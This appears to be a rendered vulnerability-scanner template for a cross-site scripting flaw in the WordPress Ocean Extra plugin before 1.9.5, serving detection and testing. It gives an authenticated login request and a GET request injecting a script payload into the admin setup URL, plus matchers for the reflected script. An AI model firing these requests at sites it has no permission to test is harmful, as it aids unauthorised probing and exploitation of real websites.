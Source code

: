 **Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress Ocean Extra \<1.9.5 - Cross-Site Scripting
## Description
- WordPress Ocean Extra plugin before 1.9.5 contains a cross-site scripting vulnerability. The plugin does not escape generated links which are then used when the OceanWP theme is active.
- severity - medium
- tags - cve,cve2021,wordpress,xss,wp-plugin,authenticated,wpscan,wp,ocean-extra
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/?step=demo&page=owp_setup&a"><script>alert(/XSS/)</script>   HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. OceanWP
    2. >\<script>alert(/XSS/)\</script>
- condition - and

**Type - word**
- part - header
- words
    1. text/html
